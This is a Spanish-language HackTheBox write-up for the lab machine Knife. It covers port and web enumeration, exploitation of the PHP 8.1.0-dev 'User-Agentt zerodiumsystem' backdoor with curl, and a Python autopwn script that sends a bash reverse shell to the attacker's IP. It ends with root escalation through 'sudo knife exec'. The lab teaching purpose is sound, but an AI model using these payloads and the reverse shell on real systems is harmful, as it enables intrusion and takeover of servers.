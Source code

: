 ```yaml
---
layout: post
title: HTB_Knife
date: 2023/07/10
slug: HTB_Knife
heroImage: /assets/machines.jpg
---
```


# Knife {-}

## Introduccion {-}

La maquina del dia se llama Knife.

El replay del live se puede ver aqui

[![S4vitaar Knife maquina](https://img.youtube.com/vi/Um6-iIYzUWk/0.jpg)](https://www.youtube.com/watch?v=Um6-iIYzUWk)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.242
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.242
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 22     | tcp      | Conneccion directa | creds      |
| 80     | tcp      | Web, Fuzzing       |            |

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.242
```

Es un Apache 2.4.41 en un Ubuntu Con una version 8.1.0-dev de PHP. 


#### Checkear la web {-}

Si entramos en la url 
```bash
 http://10.10.10.242 
```
, No vemos gran cosas tenemos que aplicar Fuzzing.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php http://10.10.10.242/FUZZ.FUZ2Z
```

Tampoco encontramos gran cosa por aqui.

#### Analyzamos las cabezeras de la respuesta al lado del servidor {-}

```bash
curl -s -X GET http://10.10.10.242 -I
```

No vemos nada. Miramos por la version de php que parece un poco rara.


## Vulnerability Assessment {-}


### php 4.1.0-dev {-}

Si buscamos en google pro 
```bash
 PHP 8.1.0 exploit 
```
 vemos una pagina que habla de User-Agent Remote Code Execution.

La vulnerabilidad aqui reside en poner un User-Agentt con 2 T con un zerodiumsystem command.

```bash
"User-Agent": "Mozilla/5...."
"User-Agentt": "zerodiumsystem('" + COMMANDO + "');"
```

Lo intentamos

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('whoami');"
#Output 
james
...

curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" head -n 1
```
## Vuln exploit & Gaining Access {-}

### Ganando accesso con un Autopwn en Pyton {-}

```python
#!/usr/bin/python3

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.242/"
lport = 443

def makeRequest():

    headers = {
        'User-Agentt': 'zerodiumsystem("bash -c \'bash -i >& /dev/tcp/10.10.14.15/443 0>&1\'");'
    }

    r = requests.get(main_url, headers=headers)

if __name__ == '__main__':

    p1 = log.progress("Pwn Web")
    p1.status("Explotando vulnerabilidad PHP 8.1.0-dev - User Agentt Remote Code Execution")

    time.sleep(2)

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible comprometer el sistema")
        sys.exit(1)
    else:
        p1.success("Comando inyectado exitosamente")
        shell.sendline("sudo knife exec -E 'exec \"/bin/sh\"'")
        shell.interactive()
```

Lo lanzamos con el commando 
```bash
 python3 autopwn.py 
```


```bash
whoami
#Output
james

hostname -I
#Output
10.10.10.242
```

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Podemos ejecutar el commando 
```bash
 /usr/bin/knife 
```
 como el usuario root sin proporcionar contraseña.

buscando por [gtfobins](https://gtfobins.github.io/gtfobins/knife/#sudo), vemos que podemos usar este
commando para ejecutar una shell.

```bash
sudo knife exec -E 'exec "/bin/bash"'
whoami
#Output 
root
```

Ya podemos leer la flag root.txt
